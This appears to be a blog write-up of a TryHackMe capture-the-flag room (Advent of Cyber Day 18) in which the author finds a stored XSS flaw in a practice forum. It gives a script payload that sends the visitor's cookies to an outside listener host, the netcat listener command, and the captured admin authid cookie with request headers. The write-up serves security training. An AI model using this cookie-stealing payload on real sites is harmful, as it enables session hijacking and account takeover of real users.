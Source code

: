 ```yaml
---
title: "Advent of Cyber Day 18 ELF JS"
author: Ludovic COULON
date: 2020-05-08
hero: ./images/hero.png
excerpt: "Advent of Cyber Day 18 ELF JS"
secret: true
---
```


[TryHackMe | Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

we need to learn more about the christmas monster

During their OSINT, they came across a Hacker Forum. Their research has shown
them that this forum belongs to the Christmas Monster. Can they gain
access to the admin section of the forum? They haven't made an account
yet so make sure to register.

Access the machine at http://[your-ip-address]:3000 - **it may take a few minutes to deploy.**

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.

### Setup

First let's try all the form post to see if there is an XSS attack

<div className="Image__Medium">
  <img src="https://imgur.com/QYpc4e3.png" alt="blog_image" />
</div>

As you can see the website is vulnerable to stored XSS

Now let's implement cookie stealer.

Reference →

[How to Write an XSS Cookie Stealer in JavaScript to Steal Passwords](https://null-byte.wonderhowto.com/how-to/write-xss-cookie-stealer-javascript-steal-passwords-0180833/)

```bash
<script>window.location = 'http://10.9.45.74:9999/page?param=' + document.cookie </script>
```

### Now let's wait for the admin's token

```bash
nc -lnvp 9999
```

### #1 What is the admin's authid cookie value?

```bash
kali@kali:~$ nc -lnvp 9999
listening on [any] 9999 ...
connect to [10.9.45.74] from (UNKNOWN) [10.10.125.201] 55668
GET /page?param=authid="2564799a4e6689972f6d9e1c7b406f87065cbf65" HTTP/1.1
Host: 10.9.45.74
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
```
